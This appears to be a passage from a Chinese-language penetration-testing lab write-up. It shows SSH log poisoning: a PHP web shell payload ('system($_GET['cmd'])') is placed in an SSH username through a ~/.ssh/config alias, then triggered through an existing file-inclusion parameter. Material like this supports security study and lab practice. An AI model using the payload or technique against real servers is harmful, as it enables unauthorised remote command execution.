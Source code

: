 

既然留下用户名登录时的痕迹，是否可以写一个`webshell`进入，然后连接成功呢， 进行测试

这里首先测试发现`kali`一直提示存在不合理的字符

```shell
ssh '<?php system($_GET['cmd']);?>'@192.168.1.30
```

所以，采用别名方法绕过，编辑`~/.ssh/config`文件，在其中编写

```shell
Hostname myserver
	Hostname 192.168.1.30
	User	'<?php system($_GET['cmd']);?>'
```

这时候再使用`ssh`连接即可

```shell
ssh myserver
```

![](./pic-1/12.jpg)



测试是否成功，注意前面是通过`file`的传参，所以这里要使用`&`调用`cmd`测试

![](./pic-1/13.jpg)
